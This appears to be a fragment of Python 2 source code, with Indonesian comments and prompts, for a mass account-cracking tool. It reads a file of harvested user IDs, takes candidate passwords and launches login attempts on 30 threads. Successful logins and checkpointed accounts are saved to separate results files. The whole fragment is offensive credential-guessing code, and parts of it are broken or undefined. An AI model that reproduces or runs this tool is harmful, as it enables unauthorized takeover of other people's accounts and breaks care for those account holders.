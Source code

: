 # Cek User Agent
def check_yntkts():
    try:
        user_agent = open('YNTKTS.txt', 'r').read()
    except IOError:
    	user_agent = '%s-'%(M)
    except: pass
    print '\n %s[%s+%s] User Agent anda : %s%s'%(N,O,N,H,user_agent)
    raw_input('\n  %s[ %skembali%s ]'%(N,O,N));moch_yayan()

# mulai ngecrot awokawokawokkawok
class __crack__:

    def __init__(self):
        self.id = []

    def plerr(self):
        try:
            self.apk = raw_input('\n [%s?%s] masukan file : '%(O,N))
            self.id = open(self.apk).read().splitlines()
            print '\n [%s+%s] total id -> %s%s%s' %(O,N,M,len(self.id),N)
        except:
            print '\n %s[%s×%s] File [%s%s%s] tidak ada, dump id dulu bro cek nomor 1 sampai 4'%(N,M,N,M,self.apk,N);time.sleep(3)
            raw_input('\n  %s[ %skembali%s ]'%(N,O,N));moch_yayan()
        ___yayanganteng___ = raw_input(' [%s?%s] apakah anda ingin menggunakan kata sandi manual? [Y/t]: '%(O,N))
        if ___yayanganteng___ in ('Y', 'y'):
            print '\n %s[%s!%s] gunakan , (koma) untuk pemisah contoh : sandi123,sandi12345,dll. setiap kata minimal 6 karakter atau lebih'%(N,M,N)
            while True:
                pwek = raw_input('\n [%s?%s] masukan kata sandi : '%(O,N))
                print ' [*] crack dengan sandi -> [ %s%s%s ]' % (M, pwek, N)
                if pwek == '':
                    print '\n %s[%s×%s] jangan kosong bro kata sandi nya'%(N,M,N)
                elif len(pwek)<=5:
                    print '\n %s[%s×%s] kata sandi minimal 6 karakter'%(N,M,N)
                else:
                    def __yan__(ysc=None): # ycs => Yayan sayang Cindy:3
                        cin = raw_input('\n [*] method : ')
                        if cin == '':
                            print '\n %s[%s×%s] jangan kosong bro'%(N,M,N);self.__yan__()
                        elif cin == '1':
                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
                            with YayanGanteng(max_workers=30) as (__yayanXD__):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('<=>')[0]
                                        __yayanXD__.submit(self.__api__, kimochi, ysc)
                                    except: pass
